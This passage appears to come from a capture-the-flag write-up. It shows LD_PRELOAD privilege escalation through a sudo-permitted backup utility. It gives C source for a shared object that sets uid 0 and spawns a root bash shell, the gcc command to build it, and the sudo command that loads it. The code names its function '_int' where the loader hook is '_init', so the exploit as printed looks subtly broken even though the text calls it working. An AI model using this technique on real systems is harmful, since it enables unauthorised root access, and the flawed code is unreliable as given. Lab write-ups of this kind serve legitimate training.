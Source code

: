 HackTricks has a good walkthrough on this that can be found [here](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path). Essentially, though, we create a shared object (.so) file that spawns a shell and have `LD_PRELOAD=<sharedobject>` when we execute the sudo command.

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void _int() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}
```

To compile the above into a shared object:

```bash
gcc -fPIC -shared -o ldbypass.so ldbypass.c
```

![ldbcompile](../media/pictures/road_privesc_ldbcompile.png)

Running `sudo LD_PRELOAD=$(pwd)/ldbypass.so /usr/bin/sky_backup_utility` will drop you into a root shell. 

Now that we have a root shell, we can navigate to `/root` and cat out `root.txt` to complete the room.

